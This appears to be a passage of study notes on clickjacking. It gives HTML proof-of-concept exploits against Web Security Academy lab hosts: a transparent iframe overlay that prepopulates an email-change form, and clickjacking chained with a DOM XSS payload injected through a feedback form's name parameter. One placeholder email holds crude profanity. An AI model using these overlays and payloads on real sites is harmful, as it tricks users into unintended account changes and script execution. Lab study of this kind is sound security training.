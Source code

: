 For example, an update email button may exist which can be prepopulated. Try crafting an exploit with the iframe values specified above:

```html
<style>
    iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top: 450px;
        left: 80px;
        z-index: 1;
    }
</style>
<div>Clickme</div>
<iframe sandbox="allow-forms"
src="https://0a68006004c8da1682001506006e00db.web-security-academy.net/my-account?email=victim@pwned.com"></iframe>
```
# Clickjacking with DOM XSS Attack

Clickjacking can be used as a carrier for another attack such as a DOM XSS attack. Implementation is straightforward assuming the XSS exploit has been identified already. The XSS exploit is combined with an iframe target URL so the user clicks on the button/link and executes the attack.

For example, there may be a feedback form. Try filling it out with appropriate values. It may reflect the name parameter back onto the page as a thank you message. in a span element:

```html
<span id="feedbackResult">Thank you for submitting feedback, Name!</span>
```

Try performing a DOM based attack by inserting a basic payload:

```html
<img src=0 onerror=alert(1)>
```

If execution occurs, create an iframe with the DOM based exploit with a prepopulated field (i.e. `name`, `subject`, `email`, `message`) so a GET request can be crafted:

```html
<style>
	iframe {
		position:relative;
		width:1200px;
		height: 1000px;
		opacity: 0.1;
		z-index: 2;
	}
	div {
		position:absolute;
		top: 834px;
		left: 80px;
		z-index: 1;
	}
</style>
<div>Click me</div>
<iframe
src="https://0af8001e03ad307880dd992b000a002f.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=fuckyou@bitch.com&subject=test&message=test"></iframe>
```